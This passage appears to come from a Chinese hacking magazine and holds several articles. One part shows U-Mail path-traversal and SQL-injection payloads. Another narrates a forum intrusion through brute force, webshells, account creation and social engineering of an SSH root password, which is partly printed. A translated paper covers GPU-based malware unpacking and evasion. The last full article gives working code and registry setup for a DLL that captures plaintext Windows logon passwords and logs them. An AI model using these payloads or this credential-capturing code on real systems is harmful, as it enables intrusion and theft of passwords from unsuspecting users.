Referer: http://mail.umail.com/webmail/client/mail/index.php?module=view&action=folder-list&refresh=1
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
UA-CPU: x86
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.2; SV1; .NET CLR 1.1.4322)
Host: mail.umail.com
Content-Length: 19
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: PHPSESSID=2a06be32fe5b4b5d3ad277bb6b22f12c

name=hereisthenameoffolder(这里就是可以被修改的文件目录名称)


> http://10.60.111.80/hack.png  


```

将数据包修改好后，利用 nc 发送给服务器，如图3所示。

图3

这里我们将文件目录名称修改为“../test/Fucky”，当 U-Mail 系统接收到这个数据包后，会在用户 test 目录下建立一个名为“Fucky”的文件目录，当 test 用户登录自己的邮件系统后，会出现吓死人的一幕，如图4所示。

图4

以上似乎都是针对邮件系统用户的安全漏洞，我们是不是应该玩些更加高端的安全漏洞呢？答案是没问题。U-Mail 系统的开发人员在一定程度上加强了系统的安全性，系统虽然使用了数据库，似乎没有出现 SQL 注入漏洞，难道说真的没有 SQL 注入漏洞吗？仔细看看 U-Mail 系统提供的功能，其中一个名为“网络硬盘”的东西吸引了我。

在“网络硬盘”中，可以设置文件被共享，一旦文件被共享，系统会提供一个共享访问网址，该网址类似这样：`xxx.com/webmail/fileshare.php?file=NA%3D%3D`。“NA%3D%3D”其实就是“NA==”，明眼人一看就知道这是 Base64 加密后的结果，它代表的就是数字 4。Base64 加密、数字、文件名这些东西让我们一下子感到机会来了。用 Base64 将“4’ and 1=’2”加密，之后将其放入上面的网址当中，替换其中的“NA%3D%3D”，再次访问这个网址，期待已久的画面出现了，如图5所示。

图5

再用 Base64 将“4’ and 1=’1”加密，之后将其放入上面的网址当中，替换其中的“NA%3D%3D”，再次访问这个网址后会发现浏览器可以成功下载被共享的文件，如此一来，我们终于找到了 SQL 注入漏洞，有了它，获得服务器就不用太担心了。

上述的安全漏洞层层递进，危害等级逐步提高，希望 U-Mail 系统的开发人员能够及时修补漏洞，为用户打造一个更好的体验平台。

## 友情检测网络安全论坛

文/图 独猫

前段时间朋友在学校建立了一个安全论坛，希望能组织一个网络安全 Team，委托我去看看论坛安全性如何，毕竟自己的安全都保证不了，还给谁讲安全去？得到委托后就开始着手进行测评。已知信息如下：

- 所有用户名的密码都有特殊字符，默认密码全部修改。
- 服务器 IP：10.60.111.80
- 服务器硬件：虚拟机，XEON x4，4G 内存，32G 硬盘，Ubuntu 12.04 Server
- ROOT 用户存在，但非 root 用户运行。
- 朋友给的建议集中在这几个方面：Web 安全性（XSS、SQL Injection、CSRF 等常见漏洞）；服务器软件的安全性；服务器自身的安全性。

委托项目这么多，压力自然也很大，不过我也肯定不可能做得那么全面，能做多少就做多少吧。首先整理下思路：- 1. 收集服务器信息，包括但不限于位置、软件、版本、已知漏洞；
- 2. 收集 Web 程序信息，查找已知漏洞；
- 3. 得到 WebShell，根据权限决定是否进行提权等。

## 收集服务器信息

首先 Nmap 跑下服务器信息，发现有 21 端口开放，尝试登录 FTP 查看信息。从返回信息看来，21 端口禁止 root 登录，如图 1 所示。
图 1

## 正面入侵

其他暂时看不出来什么，去看看 HTTP 服务吧。打开主站，看风格是自己修改过模板或者 CSS 的，整体扁平风格。注册用户后，看下底部的版权信息，发现是 DiscuzX3.1 的论坛。这么新的论坛，手头又没有 0Day，怎么入侵？尝试旁注？先看看插件有问题没。逛一逛，发现整站很简洁，基本没用的插件功能都删了。点击用户头像就会返回到主页，看样子连个人中心都关闭了！

之后我就很郁闷地给朋友打了个电话，说这都是最新的 DiscuzX3.1 论坛了，我这也没 0Day，你跟着打补丁不就好了。朋友只是一声偷笑，说你再看看，不一定没有漏洞，就把电话挂了。这就让我纳闷了，笑什么呢？难道不是 DiscuzX3.1？打开枫树 CMS 识别，经过扫描，发现竟然是 PHPWind8.7！再右键源码，查看 CSS 和 JS 的文件名，的确如此，如图 2 所示。好一个狡猾的站长，不过确实是个保证安全性的好方法！
图 2

不过就算是 PHPWind8.7，最新版也是没有 0Day 的，既然都说了密码都有特殊符号，也就没有必要尝试爆破了。正面没法进攻了，又是独立服务器，只能尝试其他途径了。正当我想有什么其他办法的时候，忽然发现网站主页变了，变成了其他网站的安装界面，当时我很纳闷，难道被人黑了？赶紧给朋友打电话，朋友说没有被黑，他在考虑网站的整体功能，准备再换一套源码，就在半夜人少时测试用的，我说你测试建立一个目录测试不就好了，干嘛在根目录。朋友说以前是建子目录，反正现在人少懒得弄了，测试效果好的话就不用再折腾了。之后我就忽然感觉有了希望！既然是测试用，那么里面肯定会存在很多默认设置或者默认密码！等他安装完之后，最快的速度尝试默认密码，可惜他是用正式上线的态度去测试网站，所以密码还是很安全的，不是默认密码。等等！他以前是在二级目录里测试的，那删没删以前的网站源码呢？

## 找到突破口

把网址扔到御剑里开始狂扫，显示扫描出来 2 个有用的子目录：10.60.111.80/1 和 /2。打开之后发现是一套测试用的 CMS，如图 3 所示。看下面的信息，显示是 xiuno_bbs2.0.0，网上搜索对应的漏洞，发现有一个后台执行漏洞。
图 3

找到后台 10.60.111.80/1/admin/?index-login.htm，尝试 admin 等常用弱口令无解。从网上下载对应的 BBS 源码，本地搭建看了下结构，发现后台登录并没有进行登录校验次数限制，且 /1 的管理员账户都是默认的 admin，估计密码也应该不会太复杂。扔到我的服务器上 Burp 爆破，设置好失败匹配字符“密码不对!”，终于找到了密码 123698745，得到了一个突破口！就在登录的时候，却发现如图 4 所示的提示。
图 4

看来是做了管理员登录 IP 限制，猜测允许的 IP 段是 10.60.111.1-254（应该是只允许这个网段，也就是只允许实验室里面进行登录！）。首先尝试下修改 X-Forwarded-For 看能不能绕过！用火狐里的 Modify Header 插件尝试更改为 10.60.111.20，无果。从本地搭建的论坛看到源码并不是通过 X-F-F 验证的，而是“$connIP=$_SERVER["REMOTE_ADDR"];”。

## 转移阵地

再看 10.60.111.80/2 这个目录，打开后显示 404，扫了目录下，发现里面应该是空的。看来必须要通过 C 段内的其他服务器登录了。扫描整个网段，发现在 10.60.111.44 这个 IP 存活。Nmap 扫描查看，开放了 80、3389，有 MySQL，用 XAMPP 搭建，还有 FTP，如图 5 所示。开放了这么多服务，估计安全性不容乐观。但是用 Chrome 加载网站就是加载不完，浏览器不兼容？换成火狐也是无法加载完，换成 IE 显示了头部的一部分，然后提示下载 ActiveX 插件，下载后显示如图 6 所示的提示。
图 5
图 6

打开 IE 的设置，启用“下载未签名的 ActiveX 控件”，确定，再启用“允许运行...”，应用，即可安装运行 ActiveX 插件。

不知这个 ActiveX 到底干了什么，直接从 10.60.111.44 跳到了 10.60.111.44/bbs 这个子目录，打开后如图 7 所示。
图 7

看风格感觉很像 Discuz 或者是 PhpWind 早期版本。默认信息已经被隐藏，右键源码搜索 dis 和 wind，结果搜索到了 Discuz 6.1.0，直接利用现成的漏洞 getshell，菜刀执行命令一看，竟然是 administrator 权限！如图 8 所示。
图 8

## 搞定主站

直接 net user 加账户，3389 连接之，再 3389 远程访问 80，终于成功进入目标后台！之后通过 Xiuno BBS CMS 的一个后台 getshell。漏洞利用方法可以参考 http://www.wooyun.org/bugs/wooyun-2010-019717/，成功得到 webshell。跨到上一级目录查看整个网站的目录，如图 9 所示。不知大家注意到没有，站长把 phpMyAdmin 改名为 jspuradmin！好吧，对于这种强悍又狡猾的安全意识，我只能表示佩服了！
图 9

再查看一下权限，如图 10 所示，发现还要提权！看了下系统版本和相应的软件版本，好像都是最新的，没有相应的漏洞可以提权。
图 10

## 最后一战

我们可以看到文件的属性基本都是 0777，也就是说可以修改文件，所以根据 phpwind 的帮助文档，我们通过菜刀修改 PHP 源文件，成功得到主站的站长密码 DEMO//m，确实安全性还算不错，虽然短，但是复杂度高。

那么 SSH 密码呢？嗅探？好像只有 SSH1 可以嗅探到密码。不管了，就这样吧。不过，既然我是物理上认识站长的，何不就让他“告诉”我呢？

> ----------------聊天记录（背景色是我的话）----------------  
> 我 14:21:23  
> 在不  
> Diigu 14:21:30  
> 嗯  
> 在了  
> 咋了  
> 我 14:21:43  
> 没啥，你的站我搞完了，对了，物理安全啥的你自己弄吧，我又不知道你机器会不会被领导踢掉电源  
> Diigu 14:21:57  
> 。。。好，真搞下来了啊  
> Diigu 14:23:34  
> ？？不说话了呢？！！！  
> 我 14:23:40  
> ==  
> 我 14:25:09  
> Diigu 14:25:22  
> 。。。好吧  
> 哪里有问题？  
> 我 14:25:51  
> 先给我你的密码，我看看你有诚意没，没有就不给说了  
> Diigu 14:25:56  
> 先说说看呢，你都有密码了，还问我要干嘛  
> 我 14:26:30  
> 给我密码看看你有没有诚意，别就跟上次似的说了请我吃饭然后人跑了!!! 还有，有人也做过类似的尝试，我先给你修复了，再给你说。省得让其他人给搞了

> 诚意快到碗里来！

> Diigu 14:26:49  
> 好吧  
> ssh 在 222 端口：root，DEMOrO0t...9  
> 是 r 零零 t

> 我 14:27:26  
> 你确定？给我正确密码!!

> Diigu 14:27:29  
> 对啊，就这个!!  
> 快告诉我，哪里有问题

> 我 14:27:42  
> 哈哈，我没有密码。你自己给我说的密码哈。  
> 登上去了哦

> ———聊天记录———

之后 SSH 登录上去，如图 11 所示。
图 11

自此，终于完全拿下了权限。又一次，一个挺安全的网站，倒在了 test 这个特殊的身份上。以后还是牢记在心：就算是 test，也要加强密码，test 后即刻删除！

（完）

### GPU 辅助执行恶意软件

文/图 Giorgos Vasiliadis 等  
译/月夜

## 译者的话

本文详细介绍了利用 GPU 的特性规避恶意软件查杀的完整技术模型，个人认为非常值得一读。GPU 通常作为高性能计算的承载平台，但将它用于恶意软件执行，则是一个全新的思路。

## 引言

恶意软件作者经常寻找通过代码变形来逃过杀毒软件查杀的新思路。目前对现存的恶意代码检测与分析系统构成重大挑战的代码加壳技术有动态脱壳和运行时多态变形。在本文中，我们将展示恶意软件如何利用普及的 GPU 来提高针对杀软的免疫力。我们设计并实现了基于 GPU 的动态脱壳和运行时多态模块，并在现今的显卡上通过了测试。我们还讨论了如何利用 GPU 的更多特性来构建更健壮、隐蔽、功能更强的恶意软件。

## 介绍

计算机病毒、僵尸客户端、Rootkit，以及其他类似软件，被统称为恶意软件，感染主机并进行恶意活动。从第一个用汇编写成的病毒，到现在针对特定应用的由诸如 JavaScript 等高级语言编写的恶意代码，任何类型的恶意软件最终都要转化为机器码并被系统处理器执行。

除了中央处理器（CPU），现代的个人计算机同样配备了另一个功能强大的计算设备：图形处理单元（GPU）。通常，GPU 用于处理 2D 和 3D 图形渲染，能够为 CPU 承担这些计算密集型操作。受视频游戏产业迅猛发展的影响，GPU 在计算性能和功能的扩展上都有了长足进步。目前最新的发展已经能用 GPU 进行一般意义上的计算了，程序员能够利用 GPU 上的超大规模集成电路进行曾经只能由 CPU 进行的常规计算。GPU 业内领头羊，如 AMD 和 NVIDIA，已经发布了开发工具，让程序员通过 C 语言编程就能在 GPU 上执行计算任务。随着最新的 GPU 推出，其不断增长的可编程性和功能，使其能够与计算机的 CPU 与内存充分协调配合。

在展示了图形处理器在普通计算上的强大潜力后，我们自然而然也会想到，恶意软件的作者也会利用现在 GPU 的出色能力为其牟利。成熟的恶意软件的生命周期和能力受两个关键因素影响：恶意软件规避现有安全防护系统的能力，以及恶意软件分析人员为分析和挖掘其功能所做的努力。通常这是实施相应检测和遏制机制的先决条件。加壳和多态变形是规避反病毒扫描的常用手段，代码加花和反调试通常用于增加逆向分析的难度。

到目前为止，杀软规避和反调试技术都得益于复杂的代码执行环境。因此，杀毒软件、分析方法，以及安全研究员、专家，都将精力集中在 IA-32 这一目前最流行的指令集架构上。在 GPU 上进行一般计算的能力为恶意软件作者对抗现有杀毒软件提供了全新的机会。原因是，现有的恶意代码只支持 IA-32 指令集，并且主流的安全研究人员对基于 IA-32 的 GPU 计算都不熟悉。

在本文中，我们力图提高对 GPU 辅助恶意软件这一潜在威胁的安全意识。因此，我们将演示恶意软件利用 GPU 进行代码脱壳的可行性。我们特意设计并实现了基于 GPU 的动态脱壳与运行时多态变形技术，这两项技术对现有的恶意软件检测与分析系统构成了巨大挑战。再者，我们进一步讨论了下一代 GPU 架构的推出所产生的潜在威胁。

我们有理由相信，充分理解攻击者的思路和能力，能够催生更为健壮的防护措施。

## GPGPU 编程

基于图形处理单元的计算技术在近几年得到了较大发展，随着图形处理器能力的增长，程序员们开始探索利用现在 GPU 的高性能并行架构来使程序更高效地运行。

诸如 OpenGL、DirectX 等传统的图形 API 并没有提供利用图形硬件计算能力的机会。当一个非图形处理任务的程序想要基于传统图形 API 在 GPU 上完成一般计算时，就显得很困难。数据和变量必须通过映射来传递，程序中的算法必须表达为像素或点阵的格式，并模拟图形传输过程。适宜的数据类型和基本计算能力以及通用的内存渲染模型的缺乏，对习惯在传统编程环境下编程的开发人员缺乏吸引力。

由 NVIDIA 推出的“统一计算设备架构”（CUDA）使得充分利用图形处理硬件性能不再依赖于图形 API，这是一个重要的进步。CUDA 利用基于 C 语言的一个最小扩展集和运行库提供了通过函数由主机控制 GPU 的功能，并且定义了一些设备专用的函数数据类型。从顶层的角度来看，一个用 CUDA 编写的程序，包含有运行在 CPU 上的串行程序部分，以及运行在 GPU 上的并行程序部分，这部分称之为 kernel。当然，它必须由 CPU 上的“父进程”调用。因此，kernel 不能单独存在，其完全受控于 CPU 上的“父进程”。

每个 kernel 约束在 GPU 中以线程块为组织单位的每个线程中执行。线程块在多核处理器上并发执行。每个多核处理器包含八个遵循 SIMD（单指令多数据流）规范的流处理器。为了保证最大化利用多核处理器的计算资源，线程调度者通常会在各个线程块之间来回切换。

除了程序执行之外，CUDA 也提供了用于在主机与设备之间进行数据传输的恰当函数。所有 I/O 操作通过 PCI 总线完成。并且，DMA（直接内存读写）技术能够让 GPU 与 CPU 之间实现内存操作。通过将一块 page-locked 内存直接映射到 GPU 地址空间中的方法，使得 CPU 上的程序能够与 GPU 中运行的 kernel 共享相同的数据。

站在恶意软件作者的角度来看，一个 GPU 辅助的恶意软件必定包含在不同处理器上运行的代码，如图 1 所示。程序执行以后，恶意软件加载相应的代码到 GPU 当中，分配 GPU、CPU 都能共享访问的内存并初始化，随后执行 GPU 代码。基于这种设计，控制流能在 GPU、CPU 间来回切换，或者将任务分解以便在 GPU、CPU 中并行执行。
图 1 GPU 辅助的恶意代码可执行程序

更大的优点在于恶意软件作者能够将 CUDA 相关的库静态编译到一个单独的可执行文件中。这样，恶意软件在感染系统时就无需额外安装任何文件。更好的是，执行 GPU 代码，包括在主机与设备之间来回传输数据，不需要管理员权限。换句话说，该类型恶意软件能够在普通用户权限下稳定运行。

## 概念的验证与实现

恶意软件能够以多种方式来使用现代 GPU 中的丰富函数。我们将描述两种基于 GPU 的恶意代码变形技术的设计与实现。这些原型不仅证明基于 GPU 辅助的恶意代码技术可行性，同时也对现有恶意软件分析与监控系统提出挑战。

我们选择在当今运用最广泛的 GPGPU 开发框架——NVIDIA CUDA 上来实践我们的原型概念。图 2 为在 NVIDIA 显卡中实现的简单异或 unpack 算法的中间代码。攻击者通过在同一可执行文件中包含多种版本的 GPU 代码来实现在不同 GPU 架构中的兼容性。事实上，只要实现对两大 GPU 厂商的兼容就几乎涵盖了所有兼容性。使用最广泛的 OpenGL 是一个跨平台 GPGPU 框架，其致力于将不同厂商的 API 统一为相同接口，这样就解决了相同功能代码的兼容性困扰。

```c
.entry _Z8unpckrPhii (
    .param .u32 __cudaparm__Z8unpckrPhii_a,
    .param .s32 __cudaparm__Z8unpckrPhii_N,
    .param .s32 __cudaparm__Z8unpckrPhii_key)
{
    .reg .u32 %r<12>;
    .reg .pred %p<4>;
    ...
    xor.b32   %r10, %r7, %r9;
    st.global.u8  [%r5+0], %r10;
    ...
    exit;
}


```

图 2 在 NVIDIA 显卡中实现的简单异或 unpack 算法的中间代码

### 1）自解压恶意软件

代码加壳是恶意软件作者为保护其代码、躲避侦测所采用的常规手法。通过这项技术，恶意软件代码通过压缩、加密等各种转换算法转换为普通数据。在运行时，一个预制的解密代码首先解密隐藏的代码，随后将控制权转交给已经释放到主机内存中的恶意代码。通过变化转换算法能够简单地生成实质相同但表现形式不同的恶意软件，从而轻易躲过现有机制的查杀。

将自解压的相关代码放在 GPU 中执行的恶意软件，对现有恶意软件侦获与分析系统构成了巨大障碍。得益于 GPU 的强大并行计算资源，恶意软件能够在 GPU 上轻松运行复杂完整的密码算法，而相同算法在 CPU 上会耗费很长时间，这将对现有恶意软件扫描造成沉重负担。现有扫描机制都是针对熟知的几个加壳脱壳套路来实现还原扫描。

并且，现有的自动脱壳检测机制无法处理 GPU 部分的代码。例如 PolyUnpack 依靠单步执行与动态反汇编来实现脱壳分析，但相比于 x86 架构，对 GPU 机器码的静态与动态分析还处在一个初级阶段，目前还没有任何恶意软件分析系统支持该功能。

其他的脱壳分析系统，诸如 Renovo，通过虚拟机运行恶意样本的方式来监控。不幸的是，现有的监控虚拟机仅仅模拟了简单的显卡设备，并不支持 GPGPU 功能特性。因此，任何以 GPU 代码为基础而脱壳的恶意软件样本，将不能在虚拟机中完全运行——这对现存大多数以虚拟机、系统模拟为架构的动态恶意软件分析系统而言，存在严重后果。

在我们对基于 GPU 的自脱壳程序的概念验证中，我们选择以随机密钥进行简单 XOR 加密，其内嵌的脱壳代码被编译为 GPU 指令集下的机器码。CUDA 中，自脱壳代码段编译生成的中间代码称为 PTX（如图 2 所示）。最终，GPU 部分的自脱壳代码及普通恶意代码形成一个可执行文件。
图 3 GPU 辅助的自解压恶意软件模型

在初始阶段，GPU 代码通常也称为 kernel，被加载进 GPU 中的同时，CPU 代码开始执行，如图 3 所示。在引导指令阶段，恶意软件申请一段内存映射缓冲区来存放加密的二进制数据。在 CUDA 2.2 及以后版本中，可能会申请并映射一段 GPU 能够访问的主机内存。这样运行在 GPU 中的 kernel 就能直接对主机内存进行访问，实现 GPU 和 CPU 的数据共享。此时控制权转移到 GPU 中，脱壳例程直接在映射缓冲区对二进制数据进行更改；脱壳完成后，控制权转回 CPU 继续执行脱壳后的代码。

这样，恶意软件本身在 CPU 阶段的代码所做工作就变为复制数据到新缓冲区——引导脱壳例程在 GPU 上运行。这种代码特征，现有的静态及动态恶意软件分析系统无法实施有效分析。

### 2）运行时多态变形

无论加密算法多么复杂，在脱壳结束后，恶意软件的原始代码必将写入主机内存中。基基于这点认识，恶意软件分析系统完全可以对进程的地址空间进行快照以对比分析，暴露恶意代码。类似地，运行时恶意软件扫描器通过检查对比进程地址空间，同样可以检测出恶意代码的本来面目。为了防止进程完整镜像被提取，一个通常的做法是将需要运行的代码在运行时再解密。在解密新的代码段之前，已经解密的代码段无需再动态加密。因为需要加密的代码段间隔越长，暴露在主机内存中的也将更小。

在我们对 GPU 上按需解密模型的概念验证中，我们选择函数（function）作为最基本的操作单元。机器码中对应的函数在源代码中分别以不同的 key 进行加密。在运行时，各个函数对应的代码在其即将执行之前进行解密，待调用完成后就重新加密。

图 4 显示了如何利用 GPU 进行代码的按需式解密。负责进行加密与解密的各个函数的代码完全驻留在 GPU 中，CPU 只负责在函数执行前后将控制权转移到 GPU 中的分发函数中。归纳起来，在函数的执行过程中，控制权通常在 GPU、CPU 中来回切换。
每个函数对应的被加密代码存放在 CPU、GPU 都能访问到的内存段中。相反，解密所用的密钥存放于 CPU 无法访问的 GPU 专属地址中，这对现有的通过运行时检测提取密钥并解密所有加密代码块的方法造成严重障碍。更进一步地说，在函数执行完毕后，使用另一个随机密钥进行重加密，将使得恶意软件在主机内存中呈现出多种形态。

尽管某些高手能够克服以上障碍提取出恶意软件的完整原始数据，但配合现有的反调试手段，这种基于 GPU 的运行时多态变形将使得任何逆向工程尝试变得无比具有挑战性并且旷日持久。例如，GPU 十分适合进行运行时代码的校验和检测，这是一种有效的反调试手段。与 CPU 只能进行周期性的校验和检测相比，GPU 却能并行地对不同代码段进行校验和检测。

## 未来的攻击

在前面的章节，我们展示了恶意软件如何通过将代码在 CPU、GPU 上配合运作以躲避常规反病毒系统。尽管十分强大，但该技术仅仅利用了现代 GPU 所提供的丰富功能中的一小部分。我们期望恶意软件作者在运用中能够同时并重利用 GPU 的图形渲染和计算能力优势。

GPU 提供的强大并行性能能够用于替代 CPU 进行密集型运算工作，例如可以通过僵尸网络进行大规模密码暴力破解。僵尸主机能够轻易拓展 GPGPU 支持，在被感染主机上使用 GPU 进行密码破解。

这不仅使得密码破解能力得到显著提升，并且将隐藏持续不断的恶意活动。因为 GPU 在工作时无法有效监控其运行了什么功能代码，因此就十分难以判断 GPU 中与密码暴力破解相关的行为。

此外，CPU 不会再被此种集约计算的进程占用太多性能，因此，任何 CPU 占用率监视器将无助于发现此类恶意活动。

现在，回想一下帧缓冲区，它是视觉处理器（VPU）中设备内存的一部分，其中包含任意时刻显示在显示器上的数据。对帧缓冲区的无限制访问为可能的攻击方式提供了更广阔的思路。例如，运行在 GPU 中的恶意代码可以定期扫描屏幕的帧缓冲区，窃取显示在用户屏幕上的私密数据，这种方法比现存的任何截屏方法都更为先进。或者，更复杂的恶意软件能够尝试通过在屏幕上显示错误信息来捉弄用户，控制访问恶意网站时的显示内容（或者更改浏览器地址栏中显示的地址）。

现在，我们熟悉了许多通过现有 GPU 进行攻击的可行性方案。但遗憾的是，在现行 GPGPU 架构中，我们还无法读写帧缓冲区。但可以预见，芯片厂商将会不断在 GPGPU SDK 和诸如 OpenGL、DirectX 的 API 中加入更多画面交互特性，很有可能在未来某一个发行版本中开放对帧缓冲区的完全控制权。通过减少 GPU、CPU 之间的数据传输，转而对屏幕像素点进行直接操控，将会大大增加图像操作性能，例如 3D 转换及视频的压缩/解压缩，这在未来硬件发展中是一个必不可少的特性。

进一步而言，未来的 GPGPU 架构将允许出现以 GPU 作为宿主的恶意软件。恶意软件完全脱离 CPU，独立运行在 GPU 中。但是，现在的显卡架构体系存在一个主要限制：不支持多任务处理。在任何时间段内，GPU 只能执行一个任务。因此，如果恶意软件直接在 GPU 上运行而没有 CPU 介入，将会因为无上下文切换机制而占用所有 GPU 时间片段，进而导致显示器渲染响应任务无法进行，显示画面会被“卡住”。尽管这个方案目前看起来还不合时宜，还有很多技术障碍需要突破，但我们有理由相信，未来的 GPU 将为下一代恶意代码在 GPU 上的完全利用提供支撑。

## 总结

基于 GPU 的通用运算技术快速发展，使得恶意软件作者能够利用现代个人电脑中的 GPU，来增强其代码对抗现有防御机制的鲁棒性。本文所述的代码加壳技术——基于 GPU 的脱壳与运行时多态——不仅要证明 GPU 辅助恶意软件的可行性，同时也要表明，GPU 上多用途计算的巨大潜力已经为恶意代码提供了强大功能支撑。上述两个技术都在现有 GPU 上实践过，并顺利通过了现有恶意软件分析系统的检测，这些系统通常只识别处理 IA-32 代码。

更进一步地说，我们假设恶意软件能够不断应用新一代 GPU 的各种新特性，那么随着显卡在图形处理和多样化计算能力上的性能不断增强，GPU 硬件将能为未来恶意软件提供一个理想的生存环境。

### 利用 Credential Manager 截获 Windows 登录密码

文/图 李旭昇

想要获取 Windows 登录密码，主要有两种思路：一是读取密码 Hash，再利用彩虹表进行破解；二是直接在输入密码时进行截获。第二种思路的主要实现方法都是通过 hook，而本文将给出一种完全文档化的方法，即通过 Credential Manager 截获 Windows 登录密码。

简单地说，Credential Manager 会在用户登录或修改密码时得到通知。Credential Manager 机制的本意是增强系统安全性，比如要求登录时提供更多凭据等等，但由于它可以得到用户名和密码的明文，我们完全可以借机截获登录密码。

Credential Manager 是一个 DLL，在用户登录后被 explorer.exe 加载执行。它必须导出的函数有 **NPLogonNotify、NPPasswordChangeNotify 和 NPGetCaps**。其中 NPLogonNotify 在用户登录时被调用，其 `lpAuthentInfo` 参数中含有我们感兴趣的明文用户名和密码。NPPasswordChangeNotify 函数在登录密码被修改时调用，这个函数的参数与 NPLogonNotify 相似，而且可以得到修改前后的明文密码。NPGetCaps 只是向 lsass 返回必要信息，没有实际功能。不过它绝对不能省略，否则 NPLogonNotify 和 NPPasswordChangeNotify 都不会被调用。

NPLogonNotify 函数首先需要根据 `lpAuthentInfo` 的内容确定登录信息类型。根据 MSDN 的介绍，微软提供的登录信息只有两种类型：`MSV1_0_INTERACTIVE_LOGON` 或 `KERB_INTERACTIVE_LOGON`，而且它们的结构又十分类似。

```c
typedef struct MSV1_0_INTERACTIVE_LOGON {
    MSV1_0_LOGON_SUBMIT_TYPE MessageType;
    UNICODE_STRING LogonDomainName;
    UNICODE_STRING UserName;
    UNICODE_STRING Password;
} MSV1_0_INTERACTIVE_LOGON, *PMSV1_0_INTERACTIVE_LOGON;

typedef struct _KERB_INTERACTIVE_LOGON {
    KERB_LOGON_SUBMIT_TYPE MessageType;
    UNICODE_STRING LogonDomainName;
    UNICODE_STRING UserName;
    UNICODE_STRING Password;
} KERB_INTERACTIVE_LOGON, *PKERB_INTERACTIVE_LOGON;
```

上述结构中的 **UserName** 和 **Password** 就是明文的用户名和密码。万事俱备，下面给出 Credential Manager 的主要代码。

```cpp
extern "C"
DWORD APIENTRY NPLogonNotify(
    _In_ PLUID lpLogon,
    _In_ LPCWSTR lpAuthentInfoType,
    _In_ LPVOID lpAuthentInfo,
    _In_ LPCWSTR lpPreviousAuthentInfoType,
    _In_ LPVOID lpPreviousAuthentInfo,
    _In_ LPWSTR lpStationName,
    _In_ LPVOID StationHandle,
    _Out_ LPWSTR *lpLogonScript
)
{
    wstring MsgTitle = L"用户登录";
    wstring Msg = L"";

    if (lstrcmpiW(L"MSV1_0:Interactive", lpAuthentInfoType) == 0)
    {
        PMSV1_0_INTERACTIVE_LOGON pAuthInfo = (PMSV1_0_INTERACTIVE_LOGON)lpAuthentInfo;
        MessageBox(NULL, L"MSV1_0:Interactive", L"LogonType", MB_OK);
        Msg = L"StationName: " + wstring(lpStationName) + L"\n" +
              L"DomainName: " + wstring(pAuthInfo->LogonDomainName.Buffer, pAuthInfo->LogonDomainName.Length / 2) + L"\n" +
              L"UserName: " + wstring(pAuthInfo->UserName.Buffer, pAuthInfo->UserName.Length / 2) + L"\n" +
              L"Password: " + wstring(pAuthInfo->Password.Buffer, pAuthInfo->Password.Length / 2);
    }

    if (lstrcmpiW(L"Kerberos:Interactive", lpAuthentInfoType) == 0)
    {
        PKERB_INTERACTIVE_LOGON pAuthInfo = (PKERB_INTERACTIVE_LOGON)lpAuthentInfo;
        MessageBox(NULL, L"Kerberos:Interactive", L"LogonType", MB_OK);
        Msg = L"StationName: " + wstring(lpStationName) + L"\n" +
              L"DomainName: " + wstring(pAuthInfo->LogonDomainName.Buffer, pAuthInfo->LogonDomainName.Length / 2) + L"\n" +
              L"UserName: " + wstring(pAuthInfo->UserName.Buffer, pAuthInfo->UserName.Length / 2) + L"\n" +
              L"Password: " + wstring(pAuthInfo->Password.Buffer, pAuthInfo->Password.Length / 2);
    }

    MessageBox(NULL, Msg.c_str(), MsgTitle.c_str(), MB_OK);
    WriteLogFile(Msg);
    return WN_SUCCESS;
}

extern "C"
DWORD WINAPI NPGetCaps(DWORD nIndex)
{
    switch (nIndex)
    {
    case WNNC_NET_TYPE:
        return WNNC_CRED_MANAGER;

    case WNNC_START:
        return 1;  // 已经启动

    case WNNC_SPEC_VERSION:
        return WNNC_SPEC_VERSION51;

    default:
        return 0;
    }
}
```

以上代码理解起来十分容易，不再详细分析。要想使 Credential Manager 生效，还需要对注册表进行配置。首先在 `HKLM\SYSTEM\CurrentControlSet\Control\NetworkProvider\Order` 键名下的 `ProviderOrder` 键值中加上 Credential Manager 的名称，这里取为 `LogonFilter`。接着在 `HKLM\SYSTEM\CurrentControlSet\services\LogonFilter\NetworkProvider` 下添加以下键值：

```ini
Class=2
Name="LogonFilter"
ProviderPath=%SystemRoot%\system32\LogonFilter.dll


```

也许读者已经发现上述注册表项中“莫名其妙”地出现了 NetworkProvider。事实上，微软认为 NetworkProvider 和 CredentialManager 非常相似，便将其注册表项合二为一，甚至一个 DLL 可以同时是 NetworkProvider 和 CredentialManager。至于这两者为什么相似（一个负责网络，一个负责用户登录），笔者实在是想不通，MSDN 中也没有给出解释，只好日后慢慢体会。若有哪位高手明白，还望不吝指教。

配置好后重新登录，如图 1 和图 2 所示，成功弹出对话框，并将信息记录到文件中。
图 1
图 2

本文程序均在 Win7 x64 + VS2012 下编译测试，完整代码请见附件。

### Patch Win8 实现 Ctrl+空格切换输入法

文/mengxp [孟学政]

长久以来，在 Windows 系统上切换输入法都是使用 Ctrl+Space 这个默认快捷键，但在 Win8 系统上这个组合键却变成了 Win+Space，让人很不习惯。虽然同样保留了 Ctrl+Space 可以切换中英文状态，但很遗憾，这个状态并不是全局保持的，只对当前应用程序保持。也许有些人使用 Shift 或者 Ctrl 切换中英文状态，但这种切换方法对于程序员来说是很糟糕的，因为程序员需要频繁地使用 Shift 打字、使用 Ctrl 复制粘贴，常常因为按下了 Shift 或 Ctrl 而没有按下对应快捷键字母，导致中英文状态发生改变。本人就是写代码的职业，所以对此深有体会。

那么有什么办法可以修改这个快捷键呢？我想到了两种方法：一是向系统植入键盘过滤驱动或者键盘钩子，替换 Win+Space 变成 Ctrl+Space；二是 Hook RegisterHotKey 这个 API，改变注册的组合键。

第一种方法比较复杂。如果使用键盘钩子，因代码是在 DLL 中，需要考虑跨平台问题，也就是需要 32 位和 64 位两个 DLL，需要将代码编译 2 份，一份放在 system32 目录，一份放在 syswow64 目录，而且实现上也比较困难。因为是过滤组合键，我想出了如下工作流程：

- 全局记录 Ctrl 状态；
- 检测 Space 按下；
- 当 Space 按下时检测 Ctrl 是否按下，若 Ctrl 按下了，则先模拟 Ctrl 弹起、Win 按下，然后再发送 Space 按下消息；
- 当 Ctrl 弹起时，替换 Ctrl 弹起消息为 Win 弹起。

这个方法我在写这篇文章前 2 个月就已经实现过，确实可行，后来发现这个方案对 DirectX 游戏兼容性有问题，会导致 Ctrl 无法正常弹起。

